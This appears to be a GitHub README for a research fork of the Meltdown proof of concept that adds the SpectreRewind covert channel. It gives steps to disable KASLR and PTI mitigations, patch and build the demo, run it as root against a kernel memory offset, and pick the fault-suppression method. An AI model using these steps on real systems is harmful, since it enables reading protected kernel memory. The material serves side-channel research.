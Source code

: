 # Meltdown with SpectreRewind

This is a folk of [Meltdown](https://github.com/IAIK/meltdown) supporting SpectreRewind, a new contention based covert channel, which targets non-pipelined floating point division units in commodity Intel, AMD, and ARM processors. 

## Experiments 

We use the [reliability](reliability.c) demo to evaluate the performance of the SpectreRewind covert channel.

### Prerequisite

Disable KASLR by specifying nokaslr in your kernel command line. For Ubuntu systems, you can modify /etc/default/grub as follows. 
```
GRUB_CMDLINE_LINUX_DEFAULT="nopti nokaslr"
```

We have tested on skylake and coffelake machines. Newer architectures with hardware level meltdown fixes (e.g., tigerlake) may not work just as the original meltdown would not work on such platforms. 

### Build and Run

```
git clone https://github.com/IAIK/meltdown
cd meltdown
patch -p1 < ../meltdown-spr.patch
make
sudo taskset 0x3 ./reliability 0xffff888000000000
```
After a few seconds, you should get an output similar to this:

```
[+] Setting physical offset to 0xffff888000000000
Using SPR (divsd_threshold=280)
[|] Success rate: 99.39% (read 114761 values)
```

### Choosing the exception suprression method 

The default exception supression mechanism is SpectreRewind (SPR). You can change this to use Intel TSX (TSX) or singal handling (SIGNAL_HANDLE). For example, to use TSX, you can modify config.fault_handling parameter of the `reliability.c` as shown below.  

```
  config.fault_handling = TSX; // SPR | SIGNAL_HANDLER;
```
